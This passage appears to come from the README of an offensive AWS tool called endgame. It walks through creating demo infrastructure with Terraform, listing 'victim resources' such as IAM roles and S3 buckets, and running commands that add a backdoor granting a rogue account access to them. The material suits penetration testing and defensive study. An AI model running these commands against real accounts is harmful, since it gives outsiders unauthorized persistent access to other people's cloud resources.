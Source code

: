 ## Step 2: Create Demo Infrastructure

This program makes modifications to live AWS Infrastructure, which can vary from account to account. We have bootstrapped some of this for you using [Terraform](https://www.terraform.io/intro/index.html).


> **Warning: This will create real AWS infrastructure and will cost you money. Be sure to create this in a test account, and destroy the Terraform resources afterwards.**

```bash
# To create the demo infrastructure
make terraform-demo
```

## Step 3: List Victim Resources

You can use the `list-resources` command to list resources in the account that you can backdoor.

* Examples:

```bash
# List IAM Roles, so you can create a backdoor via their AssumeRole policies
endgame list-resources -s iam

# List S3 buckets, so you can create a backdoor via their Bucket policies 
endgame list-resources --service s3

# List all resources across services that can be backdoored
endgame list-resources --service all
```

## Step 4: Backdoor specific resources

* Use the `--dry-run` command first to test it without modifying anything:

```bash
endgame expose --service iam --name test-resource-exposure --dry-run
```

* To create the backdoor to that resource from your rogue account, run the following:

```bash
endgame expose --service iam --name test-resource-exposure
```

Example output:

<p align="center">
  <img src="docs/images/add-myself-foreal.png">
</p>
